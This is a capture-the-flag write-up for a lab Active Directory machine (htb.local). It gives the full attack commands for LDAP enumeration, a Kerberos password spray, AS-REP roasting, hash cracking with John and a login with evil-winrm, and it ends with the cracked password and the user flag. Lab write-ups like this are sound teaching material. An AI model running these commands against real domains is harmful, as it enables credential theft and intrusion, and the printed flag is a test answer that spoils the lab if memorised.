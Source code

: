 
Initial scan with nmap came out with several results
Command:
```
nmap -sV -Pn -T4 10.10.10.161 -p-
```
Found a ldap service opened on port 389 and decided to to use the command:
```
ldapsearch -H ldap://10.10.10.161 -x -s base '' "(objectClass=*)" "*" +
```
Next we check for a null-bund on the LDAP.

```
ldapsearch -H ldap://10.10.10.161 -x -b DC=htb,DC=local
```
For user enumeration I use the commands:
```
ldapsearch -H ldap://10.10.10.161 -x -b DC=htb,DC=local "(objectClass=person)" | grep "sAMAccountName:"

enum4linux -v 10.10.10.161
```
With this search I was able to find a user svc-alfresco. 
After this we did a kerberos password spray attack with the kerbrute tool.

```
 ./kerbrute passwordspray -d htb.local --dc 10.10.10.161 user.txt 'password123' -v
```
With this attack we were able to find out that the user svc-alfresco did not need pre authentication
After the spray we did a AS-REP Roasting attack on the machine with the GetNPUsers script

```
./GetNPUsers.py htb.local/svc-alfresco -no-pass -dc-ip 10.10.10.161
```
This command gave us a hash which we then used John to crack.

```
john --wordlist=~/rockyou.txt alf.hash
```
We got the password for svc-alfresco:s3rvice.
After gaining the password we used the binary 
Evil-WinRM:
```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```
With that we gained initial access and found the user flag on the desktop

user flag: 3d6a7c6a450f8c07b30261ca85b42ca0
